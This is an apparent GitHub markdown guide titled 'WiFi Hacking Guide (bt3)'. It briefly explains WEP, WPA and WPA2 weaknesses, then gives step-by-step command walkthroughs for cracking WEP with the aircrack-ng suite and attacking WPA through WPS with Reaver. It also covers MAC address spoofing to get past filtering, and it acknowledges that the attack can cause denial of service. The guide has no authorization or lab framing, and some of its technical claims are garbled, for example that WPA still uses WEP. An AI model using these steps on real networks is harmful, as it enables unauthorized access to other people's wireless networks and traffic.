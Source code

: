 # WiFi Hacking Guide (bt3)


## THEORY

### WEP

WEP, or wired equivalent privacy, was the first wireless security scheme employed. As it name implies, it was designed to provide security to the end-user that was essentially equivalent to the privacy that was enjoyed in a wired environment. Unfortunately, it failed miserably.

For a number of reasons, WEP is extraordinarily easy to crack because of a flawed implementation of the RC4 encryption algorithm. It's not unusual to be able to crack WEP in less than 5 minutes. This is because WEP used a very small (24-bit) initialization vector (IV) that could be captured in the datastream, and this IV could then be used to discover the password using statistical techniques.


### WPA

WPA was the response by the industry to the revealed weaknesses of WEP. It's often referred to as WPA1 to distinguish it from WPA2.

WPA used Temporal Key Integrity Protocol (TKIP) to improve the security of WEP without requiring new hardware. It still uses WEP for encryption, but it makes the statistical attacks used to crack WEP much more difficult and time-consuming.


### WPA2-PSK

WPA2-PSK is the implementation of WPA2 for the home or small business user. As the name implies, it's the WPA2 implementation that uses a pre-shared key (PSK). It's this security standard that is used by most households today, and although it's far more secure, it's still vulnerable to various attacks.

A feature that was added in 2007 called Wi-Fi Protected Setup, or WPS, allows us to bypass the security in WP2-PSK .

### WPA2-AES
WPA2-AES is the enterprise implementation of WPA2. It uses the Advanced Encryption Standard or AES to encrypt data and is the most secure. It's often coupled with a RADIUS server that is dedicated for authentication.




## CRACKING WIFI PASSWORDS:


### Cracking WEP

(Success depend on the proximity to the AP point)

1) Change your MAC address:

```
$ airmon-ng ---> take note of the name of your network interfaces (example wlan0)
$ airmon-ng stop INTERFACENAME
$ ifconfig INTERFACENMAE down
$ macchanger --mac 00:11:22:33:44:55
```

2) Pick your network (BSSID):

```
$ airodump-ng INTERFACENAME
```

3) See what's happening on that network and capture information to a file:

```
$ airodump-ng -c CHANNEL -W FILENAME --bssid BSSID INTERFACENAME
```

4) Open a new console and type (where the ESSID is the access point's SSID name):

```
$ aireplay-ng -1 0 -a BSSID -h 00:11:22:33:44:55 -e ESSID INTERFACE
$ aireplay-ng -3 -b BSSID -h 00:11:22:33:44:55 INTERFACE
```

5) Once you have collected enough data, launch a third console to crack the data:

```
$ aircrack-ng -b BSSID FILENAME-01.cap
```


### Cracking WPA

* It can take up to 2-6 hours.
* It can cause DoS attack.
* If the router has MAC filtering, use a network monitoring tool to find a MAC address of a system that has a connection to the router, and then set that to the address of the attack platform.

1) Find your wireless card:

```
$ iwconfig
```

2) Put your wireless card into monitor mode:

```
$ airmon-ng start wlan0
```

or

```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
```

3) Find the BSSID of the router to crack:

```
$ airodump-ng wlan0 --> mon0 if this does not work
```

4) Crack a Network's WPA password with Reaver:

```
$ reaver -i mon0 -b BSSID -vv
```

